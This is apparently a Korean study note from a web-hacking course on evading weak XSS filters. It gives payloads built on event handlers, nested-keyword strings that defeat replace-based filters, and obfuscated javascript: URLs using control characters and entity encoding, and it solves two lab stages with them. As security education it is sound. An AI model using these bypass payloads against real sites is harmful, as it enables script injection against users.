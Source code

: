 **XSS를 방어하기 위해 필터링을 추가되어있을 때 이를 우회하는 방법**  
# 불충분한 XSS 필터링  

## XSS 필터링의 배경  
HTML은 **SGML을 바탕** -> 기능을 상당 수 유지함으로써 **문법이 복잡**해졌고, 이에 따라 HTML을 해석하는 **소프트웨어의 구조 또한 정교화**  
**브라우저 전쟁** 을 거치면서 별다른 규율 없이 **태그 등을 늘림**  
-> 이러한 과정을 통해 HTML를 해석하는 소프트웨어 작성에 어려움을 겪었고, XSS 필터링도 비활성화 해야하는 경우가 생겼다.  
-> 보안을 위해 XSS 필터링은 **안전하다고 알려진 마크업만 허용**하는 보수적인 방식 (Allowlist 필터링)을 취해야 합니다.  
## 이벤트 핸들러 속성  
자바스크립트 코드를 실행할 수 있는 HTML 태그는 **<script>** 이외에도 상당수 존재  
-> 예 : **onload, onerror, onfocus** 등  
### onload 이벤트 핸들러  
요청하는 데이터를 **로드**한 후에 **실행**, 만약 **로드에 실패**했다면 **실행되지 않습니다.**  
```html
<img src="https://dreamhack.io/valid.jpg" onload="alert(document.domain)">
<!-- → 유효한 이미지 로드 후 onload 핸들러 실행 -->

<img src="about:invalid" onload="alert(document.domain)">
<!-- → 이미지 로드 실패, onload 핸들러 실행하지 않음 -->
```
### onerror 이벤트 핸들러  
요청하는 데이터를 **로드하는데 실패**할 시 **실행**, 만약 **로드에 성공**했다면 **실행되지 않습니다.**  
```html
<img src="valid.jpg" onerror="alert(document.domain)">
<!-- → 유효한 이미지 로드 성공, onerror 핸들러 실행하지 않음 -->

<img src="about:invalid" onerror="alert(document.domain)">
<!-- → 이미지 로드 실패, onerror 핸들러 실행 -->
```
### onfocus 이벤트 핸들러  
**input 태그**에 커서를 클릭하여 **포커스가 되면 실행**되는 이벤트 핸들러  
일반적으로 공격 상황에서 
1. input 태그의 **autofocus 속성**을 이용해 **자동으로 포커스** 시킴
2. **URL의 hash 부분**에 **input 태그의 id 속성 값**을 입력(e.g. http://dreamhack.io/#inputID) 해서 자동으로 포커스 되도록 합니다.  
```html
<input type="text" id="inputID" onfocus="alert(document.domain)" autofocus>
<!-- → autofocus 속성으로 인해 페이지가 로드되지마자 바로 input 태그에 포커스함, 포커스된 직후 onfocus 핸들러 실행 -->
```

## 문자열 치환  
XSS 키워드를 필터링할 때 단순히 **치환 혹은 제거**하는 방식의 필터링 관습이 존재함  
예 : **script** 를 필터링 했을 때, **scrscriptipt** 를 사용하면, 중간의 script가 필터링되고 바깥 쪽의 script가 남는다.  
다음은 필터링 우회 예시이다.  
```
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```
대응 방안으로 흔히 문자열에 **변화가 없을 때까지 지속적으로 치환**하는 방식이 있다.  
```
function replaceIterate(text) {
    while (true) {
        var newText = text.replace(/script|onerror/gi, '');
        if (newText === text)
            break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;&gt;parent.alert(1)&lt;/&gt;" />
```

## 문자열 치환 실습  
### Stage 1  
<img src="1.jpg">  

**script** 를 빈 문자열로 치환한다.  
<img src="2.jpg">  

다음과 같이 **<script>alert(1)</script>** 을 적으면 필터링 되는 것을 알 수 있다.  
이 때, 중첩해서 문자열을 적으면 우회할 수 있다.  
<img src="3.jpg">  

**<scrscriptipt>alert(1)</scrscriptipt>** 라고 적으면 성공이다.  

### Stage 2  
<img src="4.jpg">  

**onerror** 를 빈 문자열로 치환한다.  
<img src="5.jpg">  
다음과 같이 **<img src="test.jpg" onerror=alert(1)>** 이렇게 적으면 onerror가 필터링 된다.  
<img src="6.jpg">  
이전 Stage 1과 같이 문자열을 중첩해서 적으면 우회할 수 있다. 
즉, **onerror**를 중첩해서 **<img src="test.jpg" ononerrorerror=alert(1)>** 과 같이 적으면 된다.  

## 활성 하이퍼링크  
HTML 에서 사용될 수 있는 URL들은 활성 콘텐츠를 포함할 수 있습니다.  
이 중 **javascript:** 스키마는 **URL 로드 시 자바스크립트 코드를 실행**할 수 있도록 합니다.  
```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```
다음과 같이 **a, iframe** 태그에서 javascript를 사용할 수 있다.  
이 경우에 **정규화**를 이용해 필터링을 우회할 수 있다.  
```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```
또한 태그 속성 내에서 **HTML Entity Encoding** 을 사용할 수 있다.  
즉, **javascript:** 나 다른 키워드로 인코딩해서 우회할 수 있다.  
```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```
자바스크립트에서는 **URL 객체**를 통해 URL을 직접 **정규화할 수 있으며**, **protocol, hostname 등 URL의 각종 정보를 추출**할 수 있습니다.  
```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)').href
--> "javascript:alert(1)"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

## 태그와 속성 기반 필터링  
## 태그와 속성 기반 필터링 실습  
# 퀴즈  

